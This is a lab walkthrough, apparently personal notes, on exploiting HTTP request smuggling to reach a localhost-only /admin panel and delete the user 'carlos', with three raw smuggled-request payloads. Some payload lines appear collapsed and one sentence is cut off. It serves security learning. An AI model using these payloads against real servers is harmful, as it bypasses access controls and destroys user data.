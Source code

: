 Change the request method to POST and remove the unnecessary headers.
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/83b49fc0-1404-4a5a-b4d9-c8e809c2496a)

Now we need to add our transfer encoding header. And also don't forget to add the trailing new lines.
We can see we are getting 200 ok response, Now we just need to figure out a way to request /admin which we can not access from the front end because of the security controls.
“Make sure update content length is disabled in repeater”
The next step is to create a Get request to /admin in our POST request’s body.
60 ==> SIZE OF OUR CHUNKED DATA
```
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15x=1
0
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/56737378-961b-4872-b548-db2155973728)

We can see the admin panel is only available to the local host. To bypass this situation we need to add another host header which has a value of
Payload:
71
```
POST /admin HTTP/1.1
HOST: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15x=1
0
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/add05481-9ea8-4ac4-b877-5557f7abe6ae)

Now we just need to delete the Carlos user.
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7057fb1f-958d-4ad8-afec-aee02fe5f81b)

87 
```
GET /admin/delete?username=carlos HTTP/1.1 
Host: localhost 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 15  x=1 
0
```
This payload will delete the Carlos user.
Now let's see how we can chain this vulnerability to induce XSS in the victim's browser.

From <https://infosecwriteups.com/http-request-smuggling-explained-and-exploited-part-0x3-b61623287603> 

**Exploiting HTTP request smuggling to reveal front-end request rewriting**
front-end and back-end server, and the front-end server doesn't support chunked encoding.

From <https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting> 
